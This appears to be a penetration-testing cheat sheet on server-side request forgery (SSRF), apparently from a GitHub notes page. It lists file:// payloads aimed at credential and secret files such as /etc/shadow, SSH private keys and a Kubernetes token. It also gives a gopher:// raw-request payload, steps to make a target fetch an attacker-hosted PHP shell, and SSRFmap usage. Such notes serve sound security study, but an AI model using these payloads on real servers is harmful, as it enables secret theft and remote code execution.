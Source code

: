 **SSRF** (Server-Side Request Forgery) is a type of vulnerability where an attacker can manipulate a server to make requests to unintended internal or external systems. 

## Basic Example of SSRF

**Vulnerable functionality:**  
A web app accepts a user-supplied URL to fetch and display an image:

```http
GET /fetch?url=http://example.com/image.jpg HTTP/1.1
Host: vulnerable-app.com
``` 

**Exploitation example:**  
An attacker provides a URL pointing to an internal service:
```http
GET /fetch?url=http://localhost:8000/admin HTTP/1.1
``` 


## SSRF to LFI or RFI

You can abuse SSRF to access local files on the server if `file://` scheme is allowed.

**Examples:**
```bash
file:///etc/passwd  
file:///etc/shadow  
file:///etc/hosts  
file:///etc/hostname  
file:///etc/mysql/my.cnf  
file:///var/www/html/config.php  
file:///root/.bash_history  
file:///home/user/.ssh/id_rsa  
file:///root/.ssh/authorized_keys  
file:///proc/self/environ  
file:///proc/version  
file:///proc/cmdline  
file:///proc/self/status  
file:///proc/self/fd/1  
file:///proc/self/fd/2  
file:///proc/net/tcp  
file:///proc/net/udp  
file:///proc/net/fib_trie  
file:///proc/self/cgroup  
file:///sys/class/net/eth0/address  
file:///var/log/apache2/access.log  
file:///var/log/nginx/access.log  
file:///var/lib/docker/containers/<container_id>/config.v2.json  
file:///run/secrets/kubernetes.io/serviceaccount/token
``` 

You can also make the server request a file to an external host (Controlled by the attackant) and try to **save the response to a location** that you can later access from the web. For example, targeting a web-accessible uploads folder:
```bash
http://<attackant_ip>/output.txt -o /uploads/output.txt-> saved to /var/www/html/uploads/output.txt
```
Then try to access: `http://target/uploads/output.txt`

#### Gopher in SSRF  
The `gopher://` protocol lets you craft raw TCP requests via SSRF. It's useful for attacking services like Redis, HTTP, or internal APIs by manually building requests.
```bash
gopher://127.0.0.1:80/_GET /admin HTTP/1.1%0aHost: localhost%0a%0a
```
This sends a raw HTTP request to an internal admin panel.

## SSRF to RCE (Remote Code Execution)
If the target server allows file upload or execution, you can try to execute a reverse shell.

- Host your shell file:
```bash
python3 -m http.server 8000
``` 

- Force the vulnerable server to fetch it:

```bash
http://<LAB_IP>:8000/shell.php
``` 
- Use SSRF to send a request:
```bash
/upload?url=http://<your-ip>:8000/shell.php
``` 
- Then access `/uploads/shell.php` on the target.


## SSRFmap
**ssrfmap.py** is a tool designed to automate the exploitation of SSRF vulnerabilities. It allows attackers or pentesters to utilize and manipulate input parameters that trigger server-side requests to perform various malicious activities, such as port scanning, service enumeration, and exploitation of other internal resources.
#### Installation 
```bash
git clone https://github.com/swisskyrepo/SSRFmap
cd SSRFmap
pip3 install -r requirements.txt
```
#### Configuration
The `request.txt` file should contain the full HTTP request that the web application makes when provided with a URL. This file might look like this:
```bash
GET /fetch?url=http://example.com/image.jpg HTTP/1.1
Host: vulnerable-app.com
User-Agent: Mozilla/5.0
```
#### Port scanning
To scan ports on an internal IP address, you can use the following command:
- Parameters: 
	- `-r`: name of the file where the request has been saved.
	- `-p`: name of the potentially vulnerable parameter on the request.
	- `-m`: module that we want to execute, in this case portscan.
```bash
python3 ssrfmap.py -r <request> -p <vulnerable_parameter> -m portscan
```
#### Service enumeration
To enumerate services, you can use:
```bash
python3 ssrfmap.py -r request.txt --url "http://127.0.0.1:8000" --data
```